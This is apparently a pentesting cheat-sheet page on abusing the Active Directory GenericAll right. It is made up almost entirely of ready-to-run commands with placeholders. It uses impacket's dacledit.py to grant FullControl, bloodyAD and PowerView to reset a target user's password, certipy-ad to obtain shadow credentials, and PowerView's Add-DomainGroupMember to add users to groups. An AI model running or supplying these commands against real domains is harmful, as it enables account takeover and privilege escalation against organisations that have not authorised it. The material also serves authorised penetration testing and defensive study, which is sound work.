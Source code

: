 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["Shadow Credentials", "Powerview", "Credential Dumping", "AddMember", "Impacket", "Genericall", "Domain Controller", "Active Driectory", "Windows"]
---
```


### Abuse #1: Change target user password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Change password

{{< tab set1-1 tab1 active >}}bloodyAD{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Change target user password

```console
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

{{< /tabcontent >}}

---

### Abuse #2: Get shadow credentials

{{< tab set3 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set3 tab1 >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add Full Control to current user

```console
dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target-dn 'OU=<TARGET_GROUP>,DC=<EXAMPLE>,DC=<COM>' -inheritance -action write -rights FullControl
```

#### 2. Get shadow credentials

```console
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password '<PASSWORD>' -k -account <TARGET_USER> -target <DC>
```

{{< /tabcontent >}}

---

### Abuse #3 : Add user to group

{{< tab set4 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set4 tab1 >}}

#### 1. Import PowerView
```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

{{< /tabcontent >}}

